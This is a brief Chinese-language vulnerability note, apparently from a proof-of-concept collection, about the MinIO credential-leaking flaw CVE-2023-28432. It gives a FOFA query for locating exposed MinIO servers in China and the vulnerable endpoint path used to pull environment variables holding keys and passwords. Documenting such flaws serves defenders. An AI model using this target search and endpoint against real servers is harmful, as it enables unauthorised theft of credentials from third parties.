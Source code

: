 ## Minio-verify信息泄露(CVE-2023-28432)

MinIO中存在一处信息泄露漏洞，由于Minio集群进行信息交换的9000端口，在未经配置的情况下通过发送特殊HPPT请求进行未授权访问，进而导致MinIO对象存储的相关环境变量泄露，环境变量中包含密钥信息。泄露的信息中包含登录账号密码。

## fofa

```
(banner="MinIO" || header="MinIO" || title="MinIO Browser") && country="CN"
```

## poc

```
/minio/bootstrap/v1/verify
```

![image-20240604123832575](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406041238644.png)